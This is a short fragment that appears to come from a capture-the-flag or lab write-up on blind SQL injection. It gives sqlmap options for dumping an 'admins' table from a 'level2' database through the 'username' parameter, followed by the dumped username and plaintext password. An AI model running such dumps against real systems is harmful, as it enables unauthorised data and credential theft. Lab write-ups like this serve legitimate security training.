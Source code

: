 ____
`
Blind SQLi

SQLmap

```bash
--level 5 --risk 3 -p username --batch --threads 10 -T admins -D level2 -  
-dump
```

```
+----+----------+----------+  
| id | password | username |  
+----+----------+----------+  
| 1  | cheryl   | joellen  |  
+----+----------+----------+
```


